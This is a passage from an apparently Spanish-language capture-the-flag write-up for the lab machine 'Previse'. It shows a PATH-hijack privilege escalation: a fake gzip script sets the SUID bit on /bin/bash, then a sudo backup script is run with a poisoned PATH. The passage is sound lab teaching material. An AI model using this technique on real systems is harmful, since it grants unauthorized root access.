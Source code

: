```bash
m4lwhere@previse:~$ echo "chmod u+s /bin/bash" > gzip
m4lwhere@previse:~$ chmod 777 gzip 
m4lwhere@previse:~$ export PATH=$(pwd):$PATH
m4lwhere@previse:~$ echo $PATH
/home/m4lwhere:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
``` 
1. Creo un zip con permisos SUID a la bash

2. otorgo todos los permisos 

3. configuré la variable de entorno $PATH para mi directorio actual para que configuré la fecha del script ya que toma el valor de la ruta actual

4. ejecuto el archivo creado

5. tenemos permisos SUID a la bash:) y otra máquin completada !!!

![](/assets/img/commons/Previse/terminal21.png)



